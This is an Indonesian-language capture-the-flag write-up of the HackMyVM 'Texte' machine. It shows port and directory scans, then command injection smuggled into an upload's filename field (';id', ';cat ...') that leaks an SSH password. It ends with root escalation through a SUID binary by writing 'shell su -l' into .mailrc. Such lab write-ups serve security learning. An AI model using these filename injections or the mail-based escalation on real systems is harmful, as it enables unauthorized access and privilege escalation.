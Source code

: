 ```yaml
---
layout: Post
title: HackMyVM - Texte Writeup
date: 2021-10-14 21:31 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/texte.zip">Texte</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/x6cx61x63x61x73">sml</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialan scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/TEXTE] - [10482]
└─[$] nmap -A 192.168.0.197                                                                                                [21:39:14]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-15 21:42 WIB
Nmap scan report for vinci.hmv (192.168.0.197)
Host is up (0.00063s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: TexteBoard
MAC Address: 08:00:27:22:44:E2 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=10/15%OT=22%CT=1%CU=38061%PV=Y%DS=1%DC=D%G=Y%M=080027%
OS:TM=61699366%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A
OS:)SEQ(SP=FF%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4S
OS:T11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=
OS:FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=
OS:M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## Scan Directory

Next setelah kita tahu adanya port 80, kita scan directory apa saja yang ada di web tersebut dengan `gobuster` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/TEXTE] - [10477]
└─[$] gobuster dir -u http://192.168.0.197/  -x php,html,js,txt -w /opt/wordlist/medium.txt                                [21:31:52]
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.0.197/
[+] Threads:        10
[+] Wordlist:       /opt/wordlist/medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,js,txt,php
[+] Timeout:        10s
===============================================================
2021/10/15 21:31:58 Starting gobuster
===============================================================
/index.html (Status: 200)
/upload.php (Status: 200)
===============================================================
```

## Burpsuite

Setelah di scan disini ada file `upload.php`, disini ku menggunakan burp suite untuk mendapatan password dari si user yang ada di vm itu.  Untuk pentest pertama upload dulu file ku saranin gambar biar gampang. Oya untuk vuln kali ini yaitu file yang di upload untuk selebihnya kalian bisa baca disini `https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities`. :

```console
Content-Disposition: form-data; name="myFile"; filename=";id"
Content-Type: image/png

Output :
File uploaded
<img src="data:image/png;base64,uid=33(www-data) gid=33(www-data) groups=33(www-data)
" alt="Happy" />
```

And boom ternyata bisa oke next ku coba melihat isi file nya dengan command `ls -al`. Oya tanda `;` supaya sistem bacanya string :

```console
Content-Disposition: form-data; name="myFile"; filename=";ls -al"
Content-Type: image/png

Output : 
File uploaded
<img src="data:image/png;base64,total 20
drwxr-xr-x 2 root     root     4096 Oct  8 05:43 .
drwxr-xr-x 3 root     root     4096 Oct  8 05:41 ..
-rw-r--r-- 1 www-data www-data  476 Oct  8 05:43 index.html
-rw-r--r-- 1 www-data www-data   23 Oct  8 05:43 uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt
-rw-r--r-- 1 www-data www-data  961 Oct  8 05:43 upload.php
" alt="Happy" />
```

Ada file mencurigakan nih `uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt`. Dan ternyata ketika ku buka terdapat password user ssh kamila :u 

```console
Content-Disposition: form-data; name="myFile"; filename=";cat uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt"
Content-Type: image/png

Output :
File uploaded
<img src="data:image/png;base64,kamila/h*****$$$hahaha
" alt="Happy" />
```

## SSH

Oya setelah dapet akhirnya flag user ku berhasil dapetin :

```console
kamila@texte:~$ ls
user.txt
kamila@texte:~$ cat user.txt 
*****need***
kamila@texte:~$ 
```

Next setelah dapet password dan user SSH gua bakal cek SUID nya untuk dapetin akses root dengan command `find / -perm -4000 -exec ls -la {} \; 2>/dev/null` :

```console
kamila@texte:~$ find / -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-sr-x 1 root kamila 15560 Oct  8 05:46 /opt/texte
-rwsr-xr-- 1 root messagebus 50656 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 534076 Mar 13  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 66292 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 79396 Jul 28 15:09 /usr/bin/su
-rwsr-xr-x 1 root root 43252 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 50720 Jul 28 15:09 /usr/bin/mount
-rwsr-xr-x 1 root root 47908 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 56836 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 30236 Jul 28 15:09 /usr/bin/umount
-rwsr-xr-x 1 root root 86660 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 1457924 Jul 13 12:04 /usr/sbin/exim4                                           
```

Dan ternyata terdapat file binary `texte` setelah ku cek ada register apa saja and boom terdapat `setuid dan setgid`. Oleh karena itu ku manfaatkan , tapi ada ketentuan dimana hanya di `/usr/bin/mail` saja file texte akan bekerja :

```console
kamila@texte:~$ strings /opt/texte 
******
setuid
system
******
setgid
******
/usr/bin/mail -s 'Remember,dont upload PHP files.' kamila@localhost
```

Ku berpikir sejenak akhirnya ku buat file .mailrc dan menambahkan `shell su -l` yang dimana gua akan dapet shell root. Oya gua dapet referensi dari sini `https://mailutils.org/manual/html_section/configuration.html#configuration` : 

```console
kamila@texte:~$ echo 'shell su -l' > .mailrc
kamila@texte:~$ /opt/texte
root@texte:~#                                     
```

And boom dapet shell root gas aja dapetin flagnya : 

```console
root@texte:~# ls
root.txt
root@texte:~# cat root.txt 
I******xtEs
```
